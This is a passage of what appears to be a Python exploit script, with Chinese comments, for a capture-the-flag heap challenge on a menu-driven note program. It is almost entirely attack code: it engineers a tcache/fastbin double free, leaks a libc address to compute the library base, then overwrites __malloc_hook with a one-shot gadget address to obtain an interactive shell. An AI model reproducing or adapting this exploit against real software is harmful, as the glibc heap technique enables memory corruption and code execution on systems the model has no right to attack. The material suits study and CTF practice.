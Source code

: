```python
    ru(b"please input note idx\n")
    sl(str(index).encode())
    print(f"删除一个index:{index}的chunk")
def show(index):
    Menu(b"3")
    ru(b"please input note idx\n")
    sl(str(index).encode())
    return rc(0x68)
#构造double free
for i in range(9):
    create(i,chr(0x61+i).encode()*0x68)
for i in range(9):
    delete(i)
delete(7)
for i in range(7):
    create(i,chr(0x61+i).encode())
got_addr = 0x401050
bss_addr = 0x404070 
# 控制fd 指向我们想要malloc的地址
create(7,p64(bss_addr))
create(8,b"aaaaaaaa")
create(9,b"a")
# 控制bss_addr段
create(10,p64(bss_addr))
print("开始泄露")
res = show(10)
# print("res",u64(res[16:24]))
#算出libc
libc_base = u64(res[16:24]) - 2021024
system_addr = libc_base + 0xe3b31
malloc_hook = libc_base + (0x7f291e7a2b70-0x7f291e5b6000 )
print("libc_base:",hex(libc_base))
print("malloc_hook:",hex(malloc_hook))
print("system_addr:",hex(system_addr))
print("成功泄露")
#第二次double free
for i in range(9):
    create(i,b"aaaaaaaa"*2)
for i in range(9):
    delete(i)
print("两个fastbin情况")
# input("e")
delete(7) 
print("构造double free")
for i in range(7):
    create(i,b"aaaaaaaa"*2)
print("tcache删除完毕")
# 修改malloc_hook
create(8,p64(malloc_hook ))
create(9,p64(0x0))
print("malloc_hook:",hex(malloc_hook))
print("system_addr:",hex(system_addr))
create(10,p64(system_addr))
create(11,p64(system_addr))
create(12,b"a")
ia()
```

